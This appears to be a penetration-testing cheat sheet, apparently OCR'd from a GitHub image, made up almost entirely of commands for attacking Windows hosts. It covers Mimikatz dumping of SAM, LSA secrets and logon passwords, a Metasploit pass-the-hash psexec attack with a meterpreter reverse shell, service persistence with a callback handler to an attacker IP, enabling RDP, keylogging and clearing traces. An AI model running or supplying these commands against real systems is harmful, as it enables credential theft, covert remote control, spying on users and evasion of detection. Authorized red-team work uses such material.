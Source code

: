 ```
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

```
# PASS THE HASH - PSExec
hashdump
exit
search psexec
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
```

**PERSISTENCE**

```
# Administrative Privileges required!

# RDP - Meterpreter
background

use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set SESSION 1

# Regain access
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_IP>
set LPORT <LOCAL_PORT>

# Enabling RDP
use post/windows/manage/enable_rdp
sessions
set SESSION 1
```

```
# KEYLOGGING - Meterpreter
keyscan_start
keyscan_dump
keyscan_stop
```

**CLEARING**

```
# Meterpreter
clearenv
```
